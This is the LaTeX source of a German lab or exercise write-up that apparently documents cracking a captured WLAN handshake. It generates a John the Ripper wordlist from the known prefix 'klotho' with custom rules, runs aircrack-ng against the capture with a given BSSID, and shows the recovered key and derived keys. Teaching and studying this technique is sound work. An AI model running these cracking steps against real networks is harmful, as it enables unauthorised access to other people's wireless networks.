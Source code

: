 \documentclass[12pt]{article}
\begin{document}
\subsection{WLAN-Dump}
Uns war ja bereits bekannt, dass das Kennwort für das WLAN mit \emph{klotho} beginnt und aus maximal 10 Zeichen besteht. Aus diesem Grund haben wir uns mit dem Tool John the Ripper\footnote{http://www.openwall.com/john/} eine Wordlist von dem Wort \emph{klotho} generieren lassen. Das Wort, welches wir permutieren möchten (in unserem Fall \emph{klotho}) haben wir in die Datei wordlist\_in.txt gespeichert. Für unseren ersten Versuch haben wir uns eine Wordlist generieren lassen, welche die Ziffern 0-9 und alle Buchstaben in Groß- und Kleinschreibung anhängt (in allen Permutationen) mit folgendem Befehl generieren lassen (Listing \ref{wlanJohn}). 
\begin{lstlisting}[language=sh, caption={Befehl zur Gerneriung der Wordlist},label=wlanJohn,basicstyle=\footnotesize]
john --stdout --wordlist=wordlist_in.txt --rules 
     > ./wordlist_out.txt
\end{lstlisting}
Um die Konfiguration zu vereinfachen haben wir zuvor die Standardregelen für die Generierung von Wortlisten in der john.conf-Datei wie folgt abgeändert (Listing \ref{wlanJohnConf}).
\begin{lstlisting}[caption={Regelsatz zur Generierung einer Wortliste mit genau 10 Zeichen},label=wlanJohnConf,basicstyle=\footnotesize]
[List.Rules:Wordlist]
\$[0-9a-zA-Z]\$[0-9a-zA-Z]\$[0-9a-zA-Z]\$[0-9a-zA-Z]
\end{lstlisting}
Über Aircrack\footnote{http://www.aircrack-ng.org/} konnte das WLAN-Dump nach über 2 1/2 Stunden entschlüsselt werden (Listing \ref{wlanAir} und \ref{wlanResult}). Zuvor haben wir die BSSID (02:18:39:BF:D7:67) des WLANs über \emph{aircrack-ng ./Terbium\_1.cap} ermittelt.
\begin{lstlisting}[language=sh, caption={Befehl zum BruteForce Angriff mit Hilfe der generierten WordList},label=wlanAir,basicstyle=\footnotesize]
aircrack-ng -b 02:18:39:BF:D7:67 -w ./wordlist_out.txt 
     ./Terbium_1.cap
\end{lstlisting}
\begin{lstlisting}[caption={AirCrack Resultat},label=wlanResult,basicstyle=\tiny]

      Aircrack-ng 1.1


                   [02:37:00] 26850772 keys tested (2844.09 k/s)


                          KEY FOUND! [ klothosaft ]


      Master Key     : 17 86 B9 77 EE 40 3C 20 04 E9 2E 81 5D 5C 19 99 
                       52 21 AF 9E B8 F0 78 D9 E9 23 AC 16 22 09 02 AF 

      Transient Key  : 19 B2 27 A5 4A B7 A9 47 EB B1 EB 2C 99 DC 13 3D 
                       73 2E 40 EF F5 7D BF 1F 37 0D 5E 9B C3 4B B3 8B 
                       22 57 6E EB 56 0D 5C EF 94 8B 63 84 D4 3C 30 C3 
                       A4 79 34 28 A0 48 46 AE 3E B2 DD D9 8A E6 1A EB 

      EAPOL HMAC     : 54 C3 56 9B A6 A2 0D DA 03 34 78 3C 4A C6 D0 73 
\end{lstlisting}
\end{document}
